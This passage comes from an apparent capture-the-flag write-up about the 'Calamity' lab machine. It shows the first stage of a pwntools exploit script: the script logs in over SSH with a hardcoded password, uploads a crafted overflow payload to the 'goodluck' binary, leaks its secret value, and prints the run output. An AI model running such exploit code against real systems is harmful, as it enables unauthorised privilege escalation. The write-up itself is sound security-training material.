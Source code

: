 That’s the value I’ll want to overwrite it EBX with.

I’ll start a Python script. First it will use the PwnTools `ssh` object to connect to Calamity, and start the `goodluck` process. I can use `upload_data` to create files on Calamity, so I’ll write this first stage to a randomly named file in `/tmp`, and then read that file from `goodluck`, then calling option 2 to leak `hey.secret`:

```

#!/usr/bin/env python3

import re
from pwn import *

sshConn = ssh(host="10.10.10.27", user="xalvas", password="18547936..*")
goodluck = sshConn.process("/home/xalvas/app/goodluck")
fn = f"/tmp/{randoms(10)}"

## Stage 1 - Leak hey.secret
log.info(f'Writing Stage 1 exploit to {fn}')
sshConn.upload_data(b"A" * 8 + p32(0x80002FF8), fn)
goodluck.sendline(fn)
goodluck.recv(4096)
goodluck.sendline("2")
resp = goodluck.recv(4096).decode()
secret = re.findall(r'debug info: (0x[0-9a-f]+)', resp)[0]
log.success(f"Found secret: {secret}")

```

It works:

```

root@kali# python3 rootpwn.py 
[x] Connecting to 10.10.10.27 on port 22
[+] Connecting to 10.10.10.27 on port 22: Done
[*] xalvas@10.10.10.27:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     i386
    Version:  4.4.0
    ASLR:     Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[x] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27
[+] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27: pid 5001
[+] Found secret: 0x1079d23

```

#### Stage 2 - Access Debug

Next I want to call option 3 with `hey` such that I can access the `debug` function. I’ll need to have two conditions:
- `protect == hey.secret`
- `hey.admin != 0`
